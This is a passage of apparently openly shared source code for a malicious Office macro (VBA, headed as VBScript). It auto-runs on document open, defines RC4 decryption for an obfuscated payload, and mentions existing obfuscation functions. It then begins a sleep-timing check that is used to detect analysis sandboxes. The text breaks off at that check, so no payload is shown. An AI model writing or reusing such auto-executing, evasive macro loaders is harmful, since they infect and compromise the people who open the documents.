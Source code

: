 
### RC4 Decryption in VBScript


```vba
Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

' Existing obfuscation functions (Grass, Screen, Gorgon, Yellow) remain unchanged

' RC4 Decryption Function
Function RC4(ByVal key As String, ByVal data As String) As String
    Dim s(255) As Integer, k(255) As Integer
    Dim i As Integer, j As Integer, t As Integer, tmp As Integer
    Dim output As String
    output = ""
    
    ' Initialize the key schedule
    For i = 0 To 255
        s(i) = i
        k(i) = Asc(Mid(key, (i Mod Len(key)) + 1, 1))
    Next
    
    ' Scramble the key schedule
    j = 0
    For i = 0 To 255
        j = (j + s(i) + k(i)) Mod 256
        tmp = s(i)
        s(i) = s(j)
        s(j) = tmp
    Next
    
    ' Decrypt the data
    i = 0: j = 0
    For t = 1 To Len(data)
        i = (i + 1) Mod 256
        j = (j + s(i)) Mod 256
        tmp = s(i)
        s(i) = s(j)
        s(j) = tmp
        output = output & Chr(Asc(Mid(data, t, 1)) Xor s((s(i) + s(j)) Mod 256))
    Next
    
    RC4 = output
End Function

Function MyMacro()
    Dim Apples As String
    Dim Leap As String
    Dim t1 As Date
    Dim t2 As Date
    Dim time As Long
    t1 = Now()
    Sleep (5000)
    t2 = Now()
    time = DateDiff("s", t1, t2)
    If time < 4.5 Then
```